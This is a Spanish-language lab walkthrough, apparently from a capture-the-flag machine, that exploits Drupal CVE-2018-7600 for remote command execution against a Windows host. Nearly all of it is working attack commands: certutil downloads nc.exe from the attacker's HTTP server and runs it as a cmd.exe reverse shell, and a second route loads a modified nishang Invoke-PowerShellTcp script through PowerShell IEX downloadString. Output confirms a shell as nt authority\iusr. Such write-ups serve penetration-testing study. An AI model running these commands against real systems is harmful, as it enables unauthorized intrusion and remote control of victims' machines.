 ## CVE-2018-7600 + HTTP SERVER + CERTUTIL

Vamos en esta oportunidad a crear una carpeta llamada `intrution`, donde vamos a hacer la descarga con `certutil` la utilidad `nc.exe` y luego de esto obtener una reverse shell po ejecución remota de comandos.

```bash
rlwrap nc -lvnp 4564
```

```bash
sudo python3 -m http.server 80
```

```bash
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "mkdir C:\Windows\Temp\intrution"
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c 'certutil.exe -f -urlcache -split http://10.10.14.2/nc.exe C:\\Windows\Temp\intrution\nc.exe'
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "C:\Windows\Temp\intrution\nc.exe -e cmd.exe 10.10.14.2 4564"
```

```bash
#OUTPUT
whoami
nt authority\iusr
```

## INTRUSION NISHANG + POWERSHELL

Hacemos ahora uso de [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1), realizando un ajuste en el código para obtener directamente una revese shell descargada en la máquina víctima, haciendo uso de `powershell` por ejecución remota de comandos, por medio de un servidor `http` de python en nuestra máquina atacante.

```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
mv Invoke-PowerShellTcp.ps1 ps.ps1
```

```bash
vim ps.ps1
#AGREGAR EN LA ULTIMA LINEA
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.13 -Port 4565     
```

```bash
rlwrap nc -lvnp 4565
```

```bash
sudo python3 -m http.server 80
```

```bash
python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.13/ps.ps1')"
```

